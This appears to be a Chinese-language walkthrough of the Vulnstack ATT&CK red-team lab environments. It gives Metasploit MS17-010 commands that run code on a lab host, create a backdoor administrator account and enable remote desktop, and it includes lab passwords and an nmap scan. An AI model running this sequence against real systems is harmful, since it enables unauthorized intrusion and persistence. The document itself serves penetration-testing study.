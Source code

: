 
#### ms17_010_command
发现很多的漏洞都拿不到shell，只能使用
```
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
set command whoami
run
```
![](https://img-blog.csdnimg.cn/2c74b5b062ab414296f191fcef5307f5.png)
创建用户，将用户加入administrators组，开启3389端口
```
set command net user test bmth@123456 /add
set command net localgroup administrators test /add
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```
然后使用`proxychains rdesktop 192.168.52.141`连上3389
![](https://img-blog.csdnimg.cn/5d5fde2a895c4bf7ac150cb65951bfeb.png)

参考文章：
[红日安全-ATT&amp;amp;CK实战：Vulnstack靶场实战（一）](https://www.freebuf.com/articles/web/252594.html)
[ATT&CK实战系列——红队实战（一）](https://www.cnblogs.com/wkzb/p/12358076.html)
[ATT&CK实战系列——红队实战（一）学习内网渗透](http://cn-sec.com/archives/124820.html)


## ATT&CK实战系列——红队实战（二）
本次红队环境主要Access Token利用、WMI利用、域漏洞利用SMB relay，EWS relay，PTT(PTC)，MS14-068，GPP，SPN利用、黄金票据/白银票据/Sid History/MOF等攻防技术。关于靶场统一登录密码：1qaz@WSX

注意这里要将我们的NET模式下的子网ip改为`192.168.111.0`
![](https://img-blog.csdnimg.cn/20210526142320889.png)
web机的初始的状态默认密码无法登录，需要切换用户，`de1ay/1qaz@WSX` 登录
并且需要手动开启服务，在 `C:\Oracle\Middleware\user_projects\domains\base_domain\bin` 下有一个`startWeblogic`的批处理，管理员身份运行它即可，管理员账号密码：`Administrator/1qaz@WSX`
![](https://img-blog.csdnimg.cn/20210526145015855.png)
WEB机和PC机：计算机右键->管理找到服务，将Server、Workstation、Computer Browser 全部启动
```
kali：192.168.111.129
DC：内网ip：10.10.10.10
PC：外网ip： 192.168.111.201 内网ip：10.10.10.210
WEB：外网ip：192.168.111.80 内网ip：10.10.10.80
```
首先扫描端口，由于存在**防火墙**不能使用icmp包，使用syn包探测，-sS 使用SYN半开式扫描，又称隐身扫描 -sV 服务探测
```bash
nmap -sS -sV 192.168.111.80
```
![](https://img-blog.csdnimg.cn/20210526145856581.png)
>通过扫描端口，我们通过端口初步判断目标机存在的服务及可能存在的漏洞，如445端口开放就意味着存smb服务，存在smb服务就可能存在ms17-010/端口溢出漏洞。开放139端口，就存在Samba服务，就可能存在爆破/未授权访问/远程命令执行漏洞。开放1433端口，就存在mssql服务，可能存在爆破/注入/SA弱口令。开放3389端口，就存在远程桌面。开放7001端口就存在weblogic。
